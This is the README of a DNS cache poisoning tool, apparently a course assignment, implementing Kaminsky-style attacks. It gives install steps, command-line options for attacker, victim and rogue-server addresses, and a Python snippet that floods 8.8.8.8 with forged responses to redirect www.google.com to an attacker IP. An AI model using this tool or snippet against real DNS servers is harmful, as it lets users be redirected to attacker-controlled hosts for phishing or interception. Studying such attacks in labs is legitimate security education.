

# DNS Poisoning Tool
A tool to perform DNS cache poisoning against vulnerable server.



Both attack methodology is widely described here: [Kaminsky Attack](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html)

A detailed software documentation can be found [here](https://gr3yc4t.github.io/dns-poisoning-tool/)

**WARNING**: This code is intended to be use only in the contex of a particular assignment. If you want to reuse some of the functionalities refer to the [modules section](#modules)

## Requirements
* Scapy (For packet crafting) `pip install scapy`
* Blessing (For coloured terminal) `pip install blessings`
* DNS Python (For initial DNS query)  `pip install dnspython`

Inline requirements installation command pip install:

```pip install scapy blessings dnspython```

Otherwise simply use the provided requirements file

```pip install -r requirements.txt```

## Usage
```
usage: main.py [-h] -t DOMAIN -a ATTACKER_IP -v VICTIM_DNS_IP
               [-bs BAD_SERVER_IP] [-bp BAD_SERVER_PORT] -bd BAD_DOMAIN
               [-ns NS_SERVER] [-i INTERFACE] [-at {NORMAL,DAN}]
               [-m {NORMAL,FAST}] [-vm VICTIM_MAC] [-si SECRET_IP]
               [-sp SECRET_PORT] [-nc] [-vb {1,2,3,4}]

DNS Poisoning Attack Tool

optional arguments:
  -h, --help            show this help message and exit
  -t DOMAIN, --target-domain DOMAIN
                        The target domain to spoof
  -a ATTACKER_IP, --attacker-ip ATTACKER_IP
                        Attacker IP address
  -v VICTIM_DNS_IP, --victim-dns-ip VICTIM_DNS_IP
                        The victim DNS IP address
  -bs BAD_SERVER_IP, --bad-server-ip BAD_SERVER_IP
                        The Bad Guy DNS server IP
  -bp BAD_SERVER_PORT, --bad-server-port BAD_SERVER_PORT
                        The Bad Guy DNS server port
  -bd BAD_DOMAIN, --bad-domain BAD_DOMAIN
                        The domain belonging to the attacker controlled zone
  -ns NS_SERVER, --ns-server NS_SERVER
                        The victim authoritative server
  -i INTERFACE, --interface INTERFACE
                        The Network Card interface to use
  -at {NORMAL,DAN}, --attack-type {NORMAL,DAN}
                        The type of attack to perform
  -m {NORMAL,FAST}, --mode {NORMAL,FAST}
                        Mode to use
  -vm VICTIM_MAC, --victim-mac VICTIM_MAC
                        The victim MAC address
  -si SECRET_IP, --secret-ip SECRET_IP
                        IP to bind for the secret fetcher
  -sp SECRET_PORT, --secret-port SECRET_PORT
                        Port to bind for the secret fetcher
  -nc, --no-colors      Suppress coloured terminal output
  -vb {1,2,3,4}, --verbosity {1,2,3,4}
                        Verbosity level
 ```
## Features
The tool support two version of the attack that can be specified with the related parameter
* Classical poisoning ([Shenanigans Version 1](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html#shenanigansv1))
* Dan's Shenanigans ([Dan's Version](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html#shenanigansv2))

In addition two modes are available for flooding
* **Normal Flooding** - which uses IP layer
* **Faster Flooding** - which uses Ethernet layer

When "*faster flooding*" is used, both victim MAC Address and a network interface must be supplied.

### <a id="modules"></a> Modules
The code is developed in a modular way in order to be implemented in other tools. An extensive class documentation can be found [here](https://gr3yc4t.github.io/dns-poisoning-tool/html/annotated.html).
For example the following code starts a flood of DNS crafted response against the server at "8.8.8.8" in order to spoof the google domain and redirect users to the attacker IP (66.66.66.66):
```python 
import DNSPoisoning

poisoning = DNSPoisoning('8.8.8.8', 'www.google.com', '66.66.66.66')
poisoning.start_flooding()
```

### Bugs
When runninng in faster mode, a single CTRL+C signal is not sufficient to stop the execution due to some thread/signal handler bug. Therefore to completely stop the tool is required to hold CTRL+C for few seconds until the terminate the application.